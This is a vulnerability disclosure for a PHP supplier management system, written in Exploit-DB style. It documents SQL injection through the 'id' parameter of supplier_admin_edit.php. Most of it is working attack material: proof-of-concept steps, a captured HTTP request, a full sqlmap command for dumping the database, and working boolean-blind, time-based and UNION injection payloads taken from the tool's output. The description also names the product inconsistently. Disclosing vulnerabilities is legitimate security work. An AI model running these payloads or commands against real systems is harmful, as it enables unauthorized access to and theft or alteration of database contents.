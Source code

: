 # Supplier Managment System - SQL Injection
+ **Exploit Title:** Supplier Managment System - SQL Injection
+ **Date:** 2024-02-02
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/supplier-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/6634f114-7a98-4c9a-b8c3-ff5c577378e4
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple Admin Panel App 1.0 allows SQL Injection via the 'id' parameter at "/supplier/production/supplier_admin_edit.php?action=Edit&id=8". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/supplier/production"
+ Click on the 'Customer Detaiis' button
+ Then click edit button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /supplier/production/supplier_admin_edit.php?action=Edit&id=8 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: action=Edit&id=8 AND 3751=(SELECT (CASE WHEN (3751=3751) THEN 3751 ELSE (SELECT 6876 UNION SELECT 5132) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=Edit&id=8 AND (SELECT 7637 FROM (SELECT(SLEEP(5)))uBze)

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: action=Edit&id=-3162 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a717a71,0x7672556e4e694c5648416a73487959637268546c5155454d7176647a7456446847734a7873617a56,0x716b6b6a71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[19:42:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:42:36] [INFO] fetching current database
current database: 'supplier'
```
+ current database: `supplier`

![Ekran görüntüsü 2024-02-02 034332](https://github.com/BurakSevben/CVEs/assets/117217689/9e5345ab-996f-4a2e-b6bb-11d381cfd16e)
